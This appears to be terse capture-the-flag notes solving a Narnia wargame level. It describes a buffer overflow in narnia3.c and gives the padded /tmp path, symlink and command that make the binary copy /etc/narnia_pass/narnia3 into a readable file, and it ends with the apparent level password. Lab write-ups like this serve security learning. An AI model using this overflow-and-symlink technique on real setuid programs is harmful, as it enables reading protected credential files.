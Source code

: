 cd /narnia
cat narnia3.c
buffer overflow when copying buf into ifile, overflowing into ofile
ending substring of input file path must be output file path
/tmp/[folder]/[padding]/tmp/[folder]/[filename] must be input file path

create folder /tmp/hn3
create output file /tmp/hn3/o.txt
create input folder (padding). Experimentally derived "aaaaaaaaaaaaaaaaaaaaaaa"
create folder /tmp/hn3/aaaaaaaaaaaaaaaaaaaaaaa/tmp/hn3
create symlink in this folder (ln -s /etc/narnia_pass/narnia3 /tmp/hn3/aaaaaaaaaaaaaaaaaaaaaaa/tmp/hn3/o.txt)
in narnia folder run:
./narnia3 /tmp/hn3/aaaaaaaaaaaaaaaaaaaaaaa/tmp/hn3/o.txt
cat /tmp/hn3/o.txt
thaenohtai
